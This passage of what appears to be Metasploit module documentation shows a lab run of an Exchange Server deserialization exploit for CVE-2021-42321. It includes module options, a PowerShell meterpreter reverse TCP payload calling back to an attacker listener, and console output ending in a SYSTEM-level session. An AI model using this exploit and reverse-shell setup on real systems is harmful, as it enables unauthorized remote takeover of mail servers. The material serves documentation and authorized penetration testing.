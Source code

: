 ```
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.42   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
[+] The target appears to be vulnerable. Exchange Server 15.1.2375.7 is vulnerable to CVE-2021-42321
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAAD9j/m9iNuTRpA5mrD5EV0AAAAACmbL
[+] ID value for Inbox folder is AQMkADU1ADBhYjYzMi02MTQ3LTRlOTEtYjU1ADAtN2M0ZDBhYjYzODVlAC4AAAMhko4gUQEoR6mlLklj/zwrAQD9j/m9iNuTRpA5mrD5EV0AAAMBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[!] Was not able to successfully delete the existing user configuration on the Inbox folder!
[!] Sometimes this may occur when there is not an existing config applied to the Inbox folder (default 2016 installs have this issue)!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:60610) at 2022-08-16 15:56:01 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b